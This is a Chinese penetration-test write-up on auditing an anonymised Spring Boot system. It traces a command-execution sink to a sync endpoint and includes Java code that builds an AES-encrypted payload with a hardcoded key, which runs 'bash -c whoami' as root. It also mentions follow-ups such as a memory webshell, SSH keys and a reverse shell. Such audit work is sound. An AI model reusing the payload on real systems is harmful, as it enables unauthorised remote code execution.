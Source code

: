 

# 记一次实战快速的代码审计 - 先知社区

记一次实战快速的代码审计

- - -

# 0x00 前记

最近的一次渗透项目中，获取到某系统的源码和系统管理员登录密码

[![](assets/1701678514-4e97d65b73d7c48c7a1d138d7c8555cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152630-9dc17b78-8e88-1.png)

# 0x01 快速审计

## 代码执行 1

通过项目结构，发现用的技术还是比较新的，整体架构是 springboot+mybatis，fastjson 等版本也是比较新，因为涉及到了公式计算、数据分析，所以还用到了 Scala，个人对 Scala 语言只是简单的使用过，暂时略过

[![](assets/1701678514-08181037caa1bd8778c7bbd910684be5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152820-df370582-8e88-1.png)

[![](assets/1701678514-d8658b4de7058c80c69f33fd2b8a32f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129154755-9bc34768-8e8b-1.png)

根据审 OA 漏洞的经验，猜测公式计算可能存在漏洞，找到对应的接口，这里有个 FlowScriptCompiler.getClass�(className�)，通过上下代码，发现还是挺麻烦的，首先需要先上传脚本规则文件，然后进行编译，最后再 execute 执行

这里尝试新增规则脚本，虽然后台返回成功信息，但是最后 execute 失败了，需要真实环境调试看看吧，暂时先不看这个点

[![](assets/1701678514-1387509d575042569b0bcff47d9c550d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152924-058822ca-8e89-1.png)

## 代码执行 2

通过全局搜索污点函数，发现存在 ProcessBuilder 命令执行的点�，这里可以执行命令，然后将结果使用 convertStreamToStr 方法�返回，可能可以造成回显 RCE

[![](assets/1701678514-18d9adceb51605369c4b35d5c28e426c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153007-1eeb1402-8e89-1.png)  
往前搜索 execute�方法，发现有三处地方使用到了  
[![](assets/1701678514-16829e75428fb1d66ec52fa09b95e195.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153034-2f3354aa-8e89-1.png)

第一处：先看这个/src/main/java/com/xxrule/flowrule/arch/EnvChecker.java#\_check，这里的方法，codeStr 不可控  
[![](assets/1701678514-92f1fe7c7de2beedcc3c342484352958.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153152-5d47d672-8e89-1.png)

第二处：/src/main/java/com/xxrule/flowrule/utils/ProcessUtil.java#main，测试方法，同样不可控�  
[![](assets/1701678514-e4cb9eab557f23eee134d51fa262e39a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153224-708561c8-8e89-1.png)

剩下就只有/src/main/java/com/xxrule/data/service/impl/DepotSynchroServiceImpl.java

sync 方法�接受一个 DepotSynchroDto 对象，然后使用 DataStrUtil.deCryptAndDecode��（代码在下图）解密 data 数据，解密首先会使用 base64 进行解码，然后使用 AES 再解一次得到 data 对象

data 对象用 fastjson 转成 JSONObject 的对象，然后判断�JSONObject 是否存在 sh 的 key，如果存在，继续解析 sh 对象下面的 shells 数组，最后使用�ProcessUtil.execute(sh, charset);�执行 shell  
[![](assets/1701678514-e899b9d899608f83f8cb731e5191cef5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153330-9807738a-8e89-1.png)

deCryptAndDecode 方法代码

[![](assets/1701678514-be7e6a87083538b666d148912dc40cd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153354-a5efe932-8e89-1.png)

实现类基本分析完了，我们继续搜索调用 sync 方法，发现有两处 controller 接口使用到这个方法

[![](assets/1701678514-dd6e74bc653be6f2f6c8a7df09e135f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153406-ad9da9b2-8e89-1.png)

第一处：/src/main/java/com/xxxrule/data/controller/DepotSynchroContorller.java#sync

[![](assets/1701678514-3a5b3621d5acf7eba37924a65d014c3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153439-c1238344-8e89-1.png)

第二处：/src/main/java/com/xxxrule/flowrule/controller/RuleSceneController.java#params

[![](assets/1701678514-d5b0d42907bea9b33e4a6a0648bcba07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153504-cfbe8cdc-8e89-1.png)

这两个地方都可以 RCE，相对来说，sync 接口没有那么多的条件判断，可以直接构造请求对象，写一个代码生成 payload

```plain
import org.apache.commons.codec.binary.Base64;

import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import java.security.SecureRandom;

public class Test {
    public static void main(String[] args) throws Exception {


        //生成shell执行命令加密数据
        byte[] sourceBytes = enCryptAndEncode("{\n" +
                "  \"sh\": {\n" +
                "    \"shells\": [\n" +
                "      \"bash\",\n" +
                "      \"-c\",\n" +
                "      \"whoami \"\n" +
                "    ]\n" +
                "  },\n" +
                "  \"charset\": \"utf-8\"\n" +
                "}");
        System.out.println(Base64.encodeBase64String(sourceBytes));


        //解密数据包
        System.out.println((deCryptAndDecode("")));

    }

    /**
     * AES加密
     *
     * @param content
     * @return
     * @throws Exception
     */
    public static byte[] enCryptAndEncode(String content) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, desKey);
        return cipher.doFinal(content.getBytes("UTF-8"));
    }

    public static String deCryptAndDecode(String content) {
        byte[] targetBytes = Base64.decodeBase64(content);
        try {
            return deCryptAndDecode(targetBytes);
        } catch (Exception e) {
            return "";
        }
    }


    /**
     * AES解密
     *
     * @param src
     * @return
     * @throws Exception
     */
    public static String deCryptAndDecode(byte[] src) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, desKey);
        byte[] cByte = cipher.doFinal(src);
        return new String(cByte, "UTF-8");
    }
}
```

生成执行 whomai 命令的数据：ZOxX3QMOwuTSJlkTz5LWdF3Yb0ZFvIXFVb/Iqr5Eu9ysyYwlD/DokMU8g09jfQL0KsPIxO3HlF9SiOSTaVyCPsmIq7eJ7YGOTj9kvYnjFz235gn1jBu7WdC5Tb4wtrsNAXTzc1nZZv1xh0sTGlQgcg==

发送对应的数据包，返回的 data 是 lBBVygQE6Te6euV1IGk/5WLTeEY4WW3o7LGCpYlGO8o=

[![](assets/1701678514-168660c0ded206a9eb92062143e87eff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129154410-1566c6d6-8e8b-1.png)

可以通过解密方法进行解密，返回数据是 root，因为是 SpringBoot 项目，后续可以注入内存马、写 ssh key、反弹 shell 等

[![](assets/1701678514-e1840023fc86af0ad76b6829d3c2a791.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153710-1b2de820-8e8a-1.png)

# 0x02 总结

1.  在项目时间短、任务重的情况下，代码审计还是得有耐心，不能放过每一个 sink 点，可以充分利用代码审计自动化工具，提升审计效率
2.  通过前端界面可以快速熟悉了解系统的功能特性，利用审计经验，可以猜测某些功能点可能存在漏洞
3.  一些行业会有到数据分析的业务需求，往往会使用 Spark 框架�、Scala 语言、R 语言...等进行数据处理，这一块可以尝试学习

